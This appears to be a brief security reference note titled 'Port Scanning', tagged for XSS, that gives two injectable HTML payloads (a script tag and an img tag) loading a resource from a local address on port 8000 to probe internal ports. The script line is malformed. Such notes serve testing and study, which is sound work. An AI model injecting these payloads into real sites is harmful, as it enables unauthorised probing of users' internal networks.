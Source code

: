 # Port Scanning

Search Tag(s): #helpers #xss

```
<script>src="http://[::]:8000/image.jpg"</script>
<img src="http://[::]:8000/image.jpg"><img>
```